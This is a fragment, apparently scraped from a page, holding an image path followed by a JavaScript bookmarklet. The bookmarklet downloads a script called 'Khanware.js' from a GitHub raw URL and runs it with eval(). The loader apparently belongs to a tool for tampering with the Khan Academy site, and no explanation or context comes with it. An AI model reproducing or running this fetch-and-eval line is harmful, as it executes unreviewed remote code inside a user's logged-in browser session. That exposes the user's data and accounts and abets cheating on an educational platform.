 javascript:fetch("https://raw.githubusercontent.com/radin1533/oth/blob/main/Khanware.js").then(t=>t.text()).then(eval);
